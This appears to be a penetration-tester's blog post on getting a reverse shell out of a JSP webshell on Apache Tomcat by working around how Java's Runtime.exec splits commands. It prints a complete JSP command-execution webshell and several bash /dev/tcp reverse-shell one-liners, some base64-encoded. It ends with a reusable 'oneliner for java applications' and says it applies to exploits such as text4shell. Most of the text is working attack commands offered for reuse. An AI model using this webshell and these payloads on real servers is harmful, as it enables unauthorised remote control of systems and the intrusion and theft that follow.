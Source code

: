 # TL;DR
Java is dumb and wont allow control characters such as `| < >` so instead you can do some bash black magic to get this:
```
bash -c $@|bash null echo bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

This is a java thing so it’ll work for any exploit that needs to call a java runtime object.

# Overview
Try to get a revshell off of a jsp webshell is really weird the generic bash shells wont work, and you dont want to touch disk. So what do you do?

# Try to get a shell
I recently was trying to get a shell off of a tomcat instance. The normal way is to upload a webshell and then you have code execution and you can download a meterpreter binary or something and go from there. This is RCE cause you can execute `ls` or `whoami` from the webshell and see the command output. So what about:

```
bash -c 'bash -i >& /dev/tcp/<ip>/9001 0>&1'
```

This doesn’t work for some reason, maybe its cause of the bad characters. So:
```
echo -n "bash -c 'bash -i >& /dev/tcp/<ip>/9001 0>&1'" | base64 -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC88aXA+LzkwMDEgMD4mMSc=

echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC88aXA+LzkwMDEgMD4mMSc= | base64 -d |bash
```

Still no shell. Maybe get rid of the `+` and `=`
```
echo -n "bash -c  'bash -i >& /dev/tcp/<ip>/9001  0>&1  '" | base64 -w 0
YmFzaCAtYyAgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvPGlwPi85MDAxICAwPiYxICAn

echo YmFzaCAtYyAgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvPGlwPi85MDAxICAwPiYxICAn | base64 -d | bash
```

Nope.

# Java issue?
As you upload the jsp as a war file to tomcat it will end up being run as java code, which means it would be a java issue. If you also look at the text4shell exploit (CVE-2022-42889) it is executed the same way (just looking at the script version):
```
${script:javascript:java.lang.Runtime.getRuntime().exec('<command here>')}
```

Lets look back at the webshell:
```
<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

When running:
```
echo d2hvYW1pCg==|base64 -d | bash
```

The server gives:
```
d2hvYW1pCg==|base64 -d | bash
```

## Documentation
```
exec

public Process exec(String command,
                    String[] envp,
                    File dir)
             throws IOException

Executes the specified string command in a separate process with the specified environment and working directory.

This is a convenience method. An invocation of the form exec(command, envp, dir) behaves in exactly the same way as the invocation exec(cmdarray, envp, dir), where cmdarray is an array of all the tokens in command.

More precisely, the command string is broken into tokens using a StringTokenizer created by the call new StringTokenizer(command) with no further modification of the character categories. The tokens produced by the tokenizer are then placed in the new string array cmdarray, in the same order.

Parameters:
    command - a specified system command.
    envp - array of strings, each element of which has environment variable settings in the format name=value, or null if the subprocess should inherit the environment of the current process.
    dir - the working directory of the subprocess, or null if the subprocess should inherit the working directory of the current process.
```

So the input command is a String that will be converted to a string array (cmdarray), which will break control characters as now its all a list, but when running:
```
base64 /etc/passwd -w 0
```

It works fine. So the `|` character isn’t working?

So what if we give it a string array so it doesn’t have to split the tokens.
```
new String[] {"/bin/bash", "-c","whoami"}
```

This gives a 500, so we cant do it that way.

# UNIXProcess
So when tracing it back (manually or via the stack trace) it ends up calling:
```
java.lang.UNIXProcess.forkAndExec(Native Method)
```

So the command being executed is being passed as a shell command. Kinda pointless to prove but good to double check. So is there a unix method for passing in arguments?

Turns out there is a special char:

https://stackoverflow.com/questions/3811345/how-to-pass-all-arguments-passed-to-my-bash-script-to-a-function-of-mine

So testing in bash for now:
```
bash $@ echo 1 2 3 4
```

should echo out `1 2 3 4`

Instead it does this in a bash terminal
```
bash $@ echo 1 2 3 4 5
/usr/bin/echo: /usr/bin/echo: cannot execute binary file
```

quotes and `-c`
```
bash -c '$@ echo 1 2 3 4'
```

yay it works!
```
bash -c '$@ echo "Hello World!" | base64 | base64 -d'
Hello World!
```

Now `|` works, so a shell should also work.
```
bash -c '$@ bash -i >& /dev/tcp/127.0.0.1/9001 0>&1'
```
It does!

Now to test it for the jsp shell.

It doesn’t work?

Maybe some arguments are being used for something else?
```
sh -c $@ echo echo echo echo echo
echo echo echo
```

So the first element isn’t used.
```
sh -c $@ null echo 1 2 3
1 2 3
```

Weird but ok, now can we get a shell?

Still no.
```
sh -c $@ null bash -i >& /dev/tcp/172.17.0.1/9001 0>&1
```


# Magic?
What if we wrap the command. The syntax will be a bit of a jump but I’ll go over it if it works.
```
sh -c $@|bash null echo bash -i >& /dev/tcp/172.17.0.1/9001 0>&1
```

It does nice!

So unpacking the command. How I think it works (tbh I’m not sure of anything anymore)

It will sorta do a nested execution so the first stage:
```
bash | bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
```

Then the second stage is to just run the command in the context of bash:
```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
```

Due to the fact that you are running bash in bash. So like running
```
sudo bash
```

in kali to get a root shell.

As this is for `Runtime.getRuntime().exec` It will work for any java application / exploit, for example the text4shell exploit.

So after all that if you ever need a oneliner for a java applications:
```
bash -c $@|bash null echo bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

FIN